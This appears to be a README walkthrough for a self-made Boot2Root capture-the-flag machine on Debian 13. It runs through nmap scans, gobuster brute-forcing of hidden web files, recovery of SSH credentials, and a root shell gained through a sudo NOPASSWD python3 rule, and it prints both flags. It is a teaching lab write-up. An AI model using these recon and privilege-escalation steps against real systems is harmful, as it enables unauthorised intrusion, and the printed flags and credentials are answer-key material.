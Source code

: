 # ✅ Boot2Root Walkthrough — Debian 13 Challenge

---

### 🎯 Overview

This is a realistic **Boot2Root CTF challenge** simulating a real-world penetration test. Your objectives are:

1. **Discover the target’s IP** on the network.
2. **Identify open ports and services**.
3. **Find hidden files** using directory brute-forcing tools.
4. **Retrieve user credentials and hints**.
5. **SSH into the system** as `ctfuser`.
6. **Access `user.txt`** for the first flag.
7. **Escalate privileges to root**.
8. **Access `root.txt`** for the final flag.

---

## 📦 Target Setup Summary

| Item     | Description                                                                  |
| -------- | ---------------------------------------------------------------------------- |
| OS       | Debian 13.0.0 (netinst)                                                      |
| Users    | `ctfuser` (challenge user), `inno` (decoy admin user)                        |
| Services | SSH on port 22, Apache web server on port 80                                 |
| Files    | Hidden files under `/var/www/html/hidden/`, containing credentials and hints |
| Flags    | `user.txt` in `/home/ctfuser`, `root.txt` in `/root`                         |

---

## 🔎 1️⃣ Discover the Target IP

Begin by scanning for active hosts on your subnet:

```bash
nmap -sn <your-subnet>/24
```

**Sample Output:**

```
Nmap scan report for <target-ip>
Host is up (0.0016s latency).
```

---

## 🔍 2️⃣ Scan for Open Ports

Use `nmap` to check for open services:

```bash
nmap -p- <target-ip>
```

**Expected Output:**

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🧩 3️⃣ Explore the Web Server

Check the web server:

```bash
curl http://<target-ip>/
```

Inspect for clues, links, or directory listings.

---

## 📂 4️⃣ Find Hidden Files Using Gobuster

Brute-force directories to locate hidden files:

### Install Gobuster

```bash
sudo apt install gobuster
```

### Run Gobuster

```bash
gobuster dir -u http://<target-ip>/hidden/ -w /usr/share/wordlists/dirb/common.txt -x txt,b64
```

**Output Example:**

```
/hidden/.user.txt (Status: 200)
/hidden/.hint.b64 (Status: 200)
```

---

## 📂 5️⃣ Retrieve the Files

### Get the Username

```bash
curl http://<target-ip>/hidden/.user.txt
```

```
ctfuser
```

### Get the Password Hint (Base64 Encoded)

```bash
curl http://<target-ip>/hidden/.hint.b64 | base64 --decode
```

```
Password is ctfpass
```

---

## 🔑 6️⃣ SSH into the Target

Login with discovered credentials:

```bash
ssh ctfuser@<target-ip>
```

Password: `ctfpass`

---

## 📄 7️⃣ Read `user.txt` for the First Flag

Inside your SSH session:

```bash
cat /home/ctfuser/user.txt
```

```
Flag{kappa_dance_in_rainy_days}
```

---

## ⚙️ 8️⃣ Privilege Escalation — Accessing `root.txt`

Check sudo permissions:

```bash
sudo -l
```

```
User ctfuser may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/python3
```

Exploit to get root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

---

## 🔐 9️⃣ Read `root.txt` for the Final Flag

```bash
cat /root/root.txt
```

```
Flag{ultimate_root_power}
```

---

## 🎯 Conclusion

You have:

- ✅ Discovered the target via network scanning
- ✅ Found hidden files using `gobuster`
- ✅ Retrieved credentials
- ✅ Logged in via SSH
- ✅ Accessed the user flag
- ✅ Escalated to root via `sudo`
- ✅ Captured the root flag

This CTF covers reconnaissance, enumeration, exploitation, and privilege escalation, just like a real-world pentest.

---

## 📌 Notes

* The `inno` user is a decoy.
* The web server hides critical files for enumeration.
* Designed to reward careful investigation.

---

## 🥂 Cheers!

<svg width="140" height="80" viewBox="0 0 140 80">
  <g>
    <!-- Left glass -->
    <ellipse cx="45" cy="60" rx="16" ry="8" fill="#fafafa" stroke="#c7c7c7" stroke-width="2"/>
    <rect x="37" y="35" width="16" height="25" fill="#f8e7a2" stroke="#c7c7c7" stroke-width="2" rx="8"/>
    <rect x="43" y="65" width="4" height="15" fill="#c7c7c7"/>
    <!-- Right glass -->
    <ellipse cx="95" cy="60" rx="16" ry="8" fill="#fafafa" stroke="#c7c7c7" stroke-width="2"/>
    <rect x="87" y="35" width="16" height="25" fill="#f8e7a2" stroke="#c7c7c7" stroke-width="2" rx="8"/>
    <rect x="93" y="65" width="4" height="15" fill="#c7c7c7"/>
    <!-- Cheers animation -->
    <animateTransform attributeName="transform" type="rotate"
      values="0 70 60; -15 70 60; 15 70 60; 0 70 60" dur="1.5s" repeatCount="indefinite"/>
    <!-- Sparkles -->
    <circle cx="70" cy="20" r="2" fill="#ffd700">
      <animate attributeName="r" values="2;4;2" dur="1.5s" repeatCount="indefinite"/>
    </circle>
    <circle cx="60" cy="27" r="1.2" fill="#ffd700">
      <animate attributeName="r" values="1.2;2;1.2" dur="1.5s" repeatCount="indefinite"/>
    </circle>
    <circle cx="80" cy="24" r="1.5" fill="#ffd700">
      <animate attributeName="r" values="1.5;3;1.5" dur="1.5s" repeatCount="indefinite"/>
    </circle>
  </g>
</svg>

**Congratulations!**  
Raise a glass to your hacking skills and completion of the challenge! 🎉🍷

---
